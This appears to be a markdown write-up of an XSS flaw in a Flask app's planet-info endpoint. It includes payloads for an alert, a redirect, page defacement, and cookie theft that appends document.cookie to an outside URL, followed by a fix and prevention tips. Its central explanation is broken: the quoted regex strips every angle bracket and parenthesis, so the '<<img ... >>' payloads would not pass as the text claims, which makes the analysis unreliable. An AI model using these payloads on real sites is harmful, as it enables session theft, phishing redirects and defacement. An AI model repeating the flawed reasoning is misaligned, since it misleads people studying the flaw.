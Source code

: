 ### This code is vulnerable to [XSS](https://portswigger.net/web-security/cross-site-scripting)

Vulnerable Function: `get_planet_info()` and ```get_planet_info_endpoint()```

### Why its vulnerable?

Re: ```sanitized_planet = re.sub(r'[<>(){}[\]]', '', planet) ```
In this regex, the characters <, >, (, ), {, }, [, and ] are explicitly removed, but whitespace characters are not removed. 
and only ```script``` tag is blocked, so we can use other tags like ```img``` to exploit XSS. 


Exploit: 
```js
<<img src="x" onerror="alert(1)">>
``` 

**Explanation**: In this payload, the double angle brackets, `<<` and `>>`, will not be matched by the regex, so the payload remains unaffected, and the XSS attack will execute.

### How to fix?
We can use Flask's built-in function escape from the Markup module. This function helps to escape special characters in the input, preventing them from being executed as HTML or JavaScript.

Example: 

```python
from flask import Flask, request, render_template, jsonify, escape
```

```python
return f'<h2>Planet Details:</h2><p>{escape(details)}</p>'
```
 
### What else can XSS do?
- Steal cookies and session information
- Redirect to malicious websites
- Modify website content
- Phishing
- Keylogging

### How to prevent XSS?
- Sanitize user input properly
- Use Content Security Policy (CSP)
- Use HttpOnly Cookies
- Use X-XSS-Protection header


### Here are some exploit examples:

#### Redirect to Phiting page using XSS 
```
<<img src="x" onerror="window.location.href = 'https://google.com';">>
```

#### Get cookies 
```<<img src="x" onerror="window.location.href = 'https://google.com/?cookie=' + document.cookie;">>
```

#### Modify website content
You can inject any phishing page, malicious page, or any other content to the website using XSS.

```
<<img src="x" onerror="document.body.innerHTML = '<h1>Website is hacked</h1>';">> 
```


 